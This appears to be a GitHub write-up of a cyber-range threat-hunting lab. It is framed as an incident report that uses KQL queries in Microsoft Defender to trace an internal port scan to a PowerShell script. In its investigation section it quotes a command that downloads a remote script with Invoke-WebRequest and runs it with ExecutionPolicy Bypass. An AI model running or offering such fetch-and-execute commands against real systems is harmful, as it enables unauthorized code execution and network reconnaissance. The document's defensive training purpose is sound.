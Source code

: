 

# Sudden Network Slowdowns Project 
# Objective:
To investigate abnormal traffic patterns originating from within the network, identify any signs of lateral movement or misuse of built-in tools (e.g., PowerShell), and validate whether an internal host is responsible for the performance degradation.

---
# Tools & Technology:
- Azure Virtual Machine
- PowerShell 
- Microsoft Defender
- KQL Query

---
# Table of contents

- [1. Summary](#1-summary)
- [2. Preparation](#2-preparation)
- [3. Data Collection](#3-data-collection)
- [4. Data Analysis](#4-data-analysis)
- [5. Investigation](#5-investigation)
- [6. Response](#6-response)
- [7. MITRE ATT&CK Mapping](#7-mitre-attck-mapping)
- [8. Lessons Learned / Improvement](#8-lessons-learned--improvement)
- [9. Final Status](#9-final-status)
---


## 🛡️ Incident Report: Internal Port Scanning Activity on 10.0.0.0/16 Network
## 1. Summary
Incident Title: Unauthorized Internal Port Scanning via PowerShell <br />
Date of Discovery: June 10, 2025 <br />
Reporting Team: Security Operations / Threat Hunting <br />
Impacted Network Segment: 10.0.0.0/16 <br />
Affected Host: windows-target-1 (10.0.0.5) <br />
TTPs Observed: T1046, T1059.001, T1078, T1105, T1204.002 <br />
Incident Status: Contained; Rebuilt/ Re-imaging  <br />

## 2. Preparation
### Observation:
The server team reported network performance degradation affecting older devices on the 10.0.0.0/16 internal network.

### Initial Assumption:
After ruling out external threats (e.g., DDoS), internal causes such as large file transfers or port scanning were considered. The environment allows unrestricted internal traffic and the use of scripting tools like PowerShell.

### Hypothesis:
A compromised internal host may be engaging in lateral movement or reconnaissance via port scanning.

## 3. Data Collection
### Data Sources Queried:
- DeviceNetworkEvents
  ![DataCollection1](https://github.com/user-attachments/assets/74d73fd3-8472-4d27-a1cc-59aafc29736d)

- DeviceProcessEvents
  ![DataCollection2](https://github.com/user-attachments/assets/b8cacdcc-dac6-4469-856d-d19205730b9e)

- DeviceFileEvents 
![DataCollection3](https://github.com/user-attachments/assets/f53e8661-60e6-45a2-97f1-409192e3a672)

### Focus Areas:

- Failed network connections (potential scanning) 
- Suspicious process executions
- File downloads or script execution activity

## 4. Data Analysis
### Step 1:
Analyzed DeviceNetworkEvents for failed outbound connection attempts.

```kql
DeviceNetworkEvents
| where ActionType == "ConnectionFailed"
| summarize ConnectionCount = count() by DeviceName, ActionType, LocalIP, RemoteIP
| order by ConnectionCount

```
![DeviceNetworkEvents](https://github.com/user-attachments/assets/2fdfee8a-937d-4300-97eb-d34024aa24ec)


Result: IP 10.0.0.5 exhibited an unusually high number of failed connections.

### Step 2:
Filtered for all failed connection timestamps for IP 10.0.0.5:

```kql
let IPInQuestion = "10.0.0.5";
DeviceNetworkEvents
| where ActionType == "ConnectionFailed"
| where LocalIP == IPInQuestion
| summarize FailedConnectionsAttempts = count() by DeviceName, ActionType, LocalIP
| order by FailedConnectionsAttempts desc
```

![DeviceNetworkEvents2](https://github.com/user-attachments/assets/60bc672e-f34a-4e99-aa54-6af5995d8e13)

Finding:
Connections were attempted to multiple ports in sequential order—indicating an automated port scan.

## 5. Investigation

Pivoted to DeviceProcessEvents for host windows-target-1 and timestamp near suspicious activity:

```kql
let VMName = "windows-target-1";
let specificTime = datetime(2025-06-10T08:41:10.2458249Z);
DeviceProcessEvents
| where Timestamp between ((specificTime - 10m) .. (specificTime + 10m))
| where DeviceName == VMName
| where InitiatingProcessCommandLine contains "portscan"
| order by Timestamp desc
| project Timestamp, FileName, InitiatingProcessCommandLine, AccountName

```
![DeviceProcessEvents](https://github.com/user-attachments/assets/42402a97-5812-4ae5-9230-e88689618cbc)


Key Finding:
A PowerShell command was executed at 2025-06-10T08:37:51Z with the following line:

```powershell
Invoke-WebRequest -Uri 'https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/portscan.ps1' -OutFile 'C:\programdata\portscan.ps1';cmd /c powershell.exe -ExecutionPolicy Bypass -File C:\programdata\portscan.ps1

```

Account:
Executed by SYSTEM — not expected behavior; not triggered by any admin.

I logged into the suspect computer and observed the powershell script that was used to conduct the port scan:

![portscan](https://github.com/user-attachments/assets/ba71f03c-5e53-4fab-bf31-743708f8d6d2)


## 6. Response
### Actions Taken:

- Logged into the device to verify script existence. 
- Confirmed the file portscan.ps1 existed under C:\ProgramData. 
- Isolated the host from the network. 
- Performed a full malware scan (no malware detected). 
- Escalated to IT for reimaging of the device to ensure integrity. 

## 7. MITRE ATT&CK Mapping

- T1046 - Network Service Discovery  
  (Port scanning activity to identify open services)

- T1059.001 - Command and Scripting Interpreter: PowerShell  
  (Execution of PowerShell script to perform scan)

- T1078 - Valid Accounts  
  (Script executed under SYSTEM account)

- T1105 - Ingress Tool Transfer  
  (Script downloaded from external URL using Invoke-WebRequest)

- T1204.002 - User Execution: Malicious File  
  (Execution of suspicious PowerShell file)

- T1562.001 - Impair Defenses (if applicable)  
  (Not confirmed, but would apply if local defenses were bypassed or modified)
  
## 8. Lessons Learned / Improvement
### Preventive Measures:

- Implement internal network segmentation to reduce lateral movement risk. 
- Restrict PowerShell usage via Group Policy or allow-listing.
- Apply egress controls and file reputation filtering for outbound web requests.
- Increase visibility over SYSTEM-level activities on endpoints.

### Detection Enhancements:

- Create alerts for abnormal outbound connection spikes.
- Monitor for suspicious PowerShell usage and external script downloads.
- Correlate failed connection logs with script execution patterns.

## 9. Final Status
Threat Contained: ✅

Device Isolated: ✅

Malware Scan Result: Clean

Device Action: Ticket submitted for full rebuild

Follow-up: Review PowerShell execution policies and endpoint monitoring rules


